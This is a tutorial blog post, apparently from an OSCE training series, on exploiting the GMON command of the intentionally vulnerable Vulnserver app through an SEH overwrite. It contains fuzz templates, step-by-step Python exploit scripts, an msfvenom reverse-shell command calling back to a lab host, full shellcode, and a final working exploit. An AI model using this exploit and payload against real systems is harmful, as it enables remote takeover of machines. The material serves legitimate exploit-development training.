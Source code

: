 :slug: vulnserver-gmon/
:date: 2020-06-16
:category: attacks
:subtitle: Exceptions are good
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Roberto Gomez Angel on Unsplash
:description: This post will show how to exploit the Vulnserver GMON command using Structured Exception Handling (SEH) overwrite.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/KmKZV8pso-s

= GMON Exploiting: Harnessing SEH

This is the fourth article on the series of exploiting `Vulnserver`,
a `VbD` (Vulnerable-by-Design) application
in which you can practice Windows exploit development.

In our previous posts, we have successfully exploited link:../vulnserver-trun/[TRUN],
and link:../vulnserver-gter-no-egghunter/[GTER] commands.
Both of them had something in common: direct `EIP` overwrite, in which
our buffer directly overwrote the `saved return address` on the stack frame
of the affected function with a `JMP` instruction to execute the code
on our controlled buffer.

In this post, we will exploit the `GMON` command using a Structured
Exception Handling (`SEH`) overwrite to take control of the flow of Vulnserver.

== Structured Exception Handling

`SEH` is a non-standard mechanism created by Microsoft to handle exceptions
of applications using a uniform structure. It allows `C/C++` programs using
the well-known exception handling syntax (`try-except-finally`) used by other
high-level imperative languages. Here's an example:

[source,c]
----
__try {
    ....
    strcpy(mybuff, myinput);
}
__except (INSUFFICIENT_MEMORY) {
    my_exception_handler();
}
----

As you may imply, this code will try to execute `strcpy()`, and if it fails
because `INSUFFICIENT_MEMORY`, it will execute `my_exception_handler()`.

As there may be many exceptions, some explicitly declared by the
application and other by the `OS`, the handlers are tied together by a chain
of `_EXCEPTION_REGISTRATION_RECORD` structures, the last one (identified by
`FFFFFFFF`) being the default handler.

When an exception occurs,
the `OS` will walk the `SEH` chain,
finding which of them can handle that exception.
If none of the handlers have that exception registered,
the default handler (`FFFFFFFF`) will be triggered.

The structure of `_EXCEPTION_REGISTRATION_RECORD` is:

[source,c]
----
typedef struct _EXCEPTION_REGISTRATION_RECORD
{
     PEXCEPTION_REGISTRATION_RECORD Next;
     PEXCEPTION_DISPOSITION Handler;
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
----

Here the `Next` parameter is a pointer to the next exception handler, also
called `nSEH`, and the `Handler` parameter is a pointer to the handler itself.
We can see the exception handler's chain on a debugger:

image::seh1.png[SEH chain]

And on the stack, it is shown as:

image::seh2.png[SEH chain]

More information on `SEH` can be found on
link:https://docs.microsoft.com/en-us/cpp/cpp/structured-exception-handling-c-cpp?view=vs-2019[Microsoft's site].

== SEH exploiting

To oversimplify, the main goal of exploiting a program using `SEH` is to have
the ability to overwrite the exception handler pointer
(`my_exception_handler()` in our example) of the vulnerable function
with a pointer to our controlled code.

Some things must be in place for us
to successfully exploit an application using `SEH`:

. The application must have `SEH` built-in. This is a compile-time option.
. Our buffer will be allowed to pass far enough in the stack frame
to reach the function's `SEH` handler.
. The application must be compiled with `SafeSEH=Off`.

`SafeSEH` is a mechanism created since Windows XP that statically defines
the list of the allowed exception handlers, and if the application tries to
call something different, a crash will happen.

Ok, now with that summary of `SEH`, let's get our hands dirty.

== Fuzzing GMON

As with the other Vulnserver commands, the `GMON` command takes a single
parameter, so, we can reuse our Spike fuzz template:

[source,c]
----
s_string("GMON ");
s_string_variable("*");
----

Remember that the `s_string` command will send an immutable string to
the fuzzed protocol, and `s_string_variable` tells `Spike` to use
that string as a fuzz point.

And run it:

image::fuzz1.gif[Fuzzing GMON]

We got the crash!

And as with the other Vulnserver commands, it seems that 5060 bytes of data
triggered the crash:

image::wireshark1.png[Wireshark]

We can create our first proof-of-concept exploit:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Now run our exploit with `vulnserver.exe` attached to a debugger:

image::crash1.gif[PoC]

As you can see, we effectively crashed `vulnserver.exe`,
but `EIP` does not seem to be mangled by our buffer.

However, if we look at the `SEH` chain table, we will see this:

image::seh3.png[Corrupted SEH]

That means that we effectively triggered an exception and overwrote the
exception handler with our buffer. If we trigger the exception handler (in
Immunity Debugger, it's done with `Shift+F9`) this will happen:

image::eip1.gif[EIP control]

We control `EIP!` That means that
we have control over the process execution flow again.

We can now exploit this.

== Exploiting

We first need to find the exact offset on where the `SEH` handler gets
overwritten. We can do that by creating a cyclic pattern
using `pattern_create.rb` from Metasploit:

[source,console]
----
$ msf-pattern_create -l 5000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac....
----

Let's add that pattern to our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'<insert pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::pattern1.gif[Pattern offset]

As you can see, the handler was overwritten with `346F4533`.
To find the offset in which the `SEH` handler gets overwritten,
we can use `pattern_offset.rb`:

[source,console]
----
$ msf-pattern_offset -q 346F4533
[*] Exact match at offset 3551
----

Great, the offset on which
the `SEH` handler starts to be overwritten is `3551`.

To check that offset, we can inject:

. 3551 `A` characters
. 4 `B` characters
. 5000 - 3551 - 4 = 1445 `C` characters

If the `SEH` handler gets overwritten with our `B` buffer, we got it right.
This is our updated exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    b'B' * 4 +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And the result:

image::offset1.gif[Right offset]

Awesome!

Now, what would normally happen is to find a `JMP ESP` instruction.

However, let's look at the state of the stack
after triggering the exception handler:

image::aftercrash1.png[Stack]

We can see several things here:

. `EIP` is `42424242`.
. There are 8 bytes between the `ESP` at `0104EBA0` and a pointer to
our buffer at `0104EBA8`.
. So, if we'd run a `JMP ESP`, we'd land at a place in the stack
which we don't control, and exploitation would likely fail.

So we need to find a way of removing those 8 bytes off of the stack in order
to redirect the execution flow to `0104EBA8` which has a pointer to our
controlled buffer.

== POP/POP/RET

The x86 stack is a `LIFO` (Last In First Out) structure
where the last item pushed into the stack is the first to be popped back.
Each `PUSH` instruction will push exactly 4 bytes into the stack, decreasing
the stack pointer (`ESP = ESP - 4`) and every `POP` instruction will pop
exactly 4 bytes off of the stack, increasing the stack pointer
(`ESP = ESP + 4`).

With that in mind, and knowing that we need to remove 8 bytes of the
stack to then return to `0104EBA8` which has a pointer to our controlled
buffer, we need to find an address that contains a sequence of these
instructions:

[source,x86asm]
----
POP R32           ; R32 can be any 32 bits register
POP R32
RET
----

The first `POP` will remove the first 4 bytes of the stack, the next `POP` the
other 4 bytes. The `RET` will place the pointer at `0104EBA8` to `EIP`
which will redirect the execution flow to our buffer.

We can find those 3 instructions using many ways. I will use `mona.py`:

[source,console]
----
!mona seh -cp nonull -cm safeseh=off -o
----

This will tell `mona.py` to find `POP/POP/RET` instruction sequences and
omit addresses with null characters (`-cp nonull`), omit addresses on
modules compiled with `SafeSEH` (`-cm safeseh=off`), and omit addresses
on modules of the `OS` (`-o`).

image::mona1.png[POP POP RET]

And we got 12 different options. We can choose any of those.
I will choose the sequence at `625011FB` just because :)

We can now update our exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:

image::popret1.gif[POP POP RET]

Weeeeeeeh! We overwrote the `SEH` handler, triggered the exception, and
redirected to a `POP/POP/RET` sequence that returned to our controlled buffer!

However...!

We landed only 4 bytes before our injected `POP/POP/RET` address.
Remember the `_EXCEPTION_REGISTRATION_RECORD` structure?
It has 2 members: the `SEH` handler,
which we are overwriting with the `POP/POP/RET` address,
and the pointer to the next exception handler, also called `nSEH`.
Well, we landed at `nSEH`.

However, just after the injected address there's a good 43 bytes buffer,
and before `nSEH` we had our 3500+ bytes buffer of `A`.

So, what's next? That's right! We must jump around again!

== Jump around

We only have 4 bytes to perform our first jump. Fortunately for us, short
jumps are only link:https://thestarman.pcministry.com/asm/2bytejumps.htm[2 bytes long].

We must perform a short jump of at least 8 bytes to pass *over* our
injected `POP/POP/RET` address and land on our `C` buffer.
We can get the needed opcodes using `nasm_shell.rb`:

[source,console]
----
$ msf-nasm_shell
nasm > jmp short +0xa
00000000  EB08              jmp short 0xa
----

*Fun fact:* Note that we told to perform a 10 byte (`0xa`) jump, and the
returned opcode was `EB08`. It's because the `JMP` will calculate the offset
including the length of the `JMP` instruction, which is 2 bytes.

OK, with our short jump opcode we can update our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see if we could effectively jump over the `SEH` handler:

image::jmp1.gif[Short jump]

Yes! We are past our `SEH` handler. Now we have enough room of bytes to perform
a long jump back to the start of our `A` buffer.
With the debugger's help, we get the needed offset by simply telling it to jump
to the start of our `A` buffer and letting it calculate the offset.

image::jmp2.gif[Long jump]

As you can see, the resultant bytes are `E9 16 F2 FF FF`.

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::jmp3.gif[Long jump]

Great! All that's left is to insert a shellcode. Let's do that.

== Getting shell

We can create a reverse shellcode using `msfvenom` from Metasploit:

[source,console]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1807 bytes
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"
----

And with that, we can have the final exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=seh -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xba\x26\x9f\x12\x98\xda\xda\xd9\x74\x24\xf4\x58"
SHELL += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\x76"
SHELL += b"\x91\xf0\x6d\x8a\x45\x76\x8d\x72\x96\x17\x07\x97"
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"

PAYLOAD = (
    b'GMON /.:/' +
    SHELL +
    b'A' * (3551 - 4 - len(SHELL)) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Let's check it:

image::shell1.gif[Success]

Our shell! We are getting good at it, aren't we?

You can download the final exploit link:exploit.py[here]

== Conclusion

Exploiting applications using `SEH` overwriting is just a little different
than the vanilla `EIP` overwrite. However, you must take care of the little
details all the way down to get a successful exploitation. You can check
different `SEH`-based exploits at the
link:../vulnserver-lter-seh/[Vulnserver LTER], the
link:../quickzip-exploit/[QuickZIP exploiting] and
the link:../netscan-exploit/[Netscanner exploiting] articles.
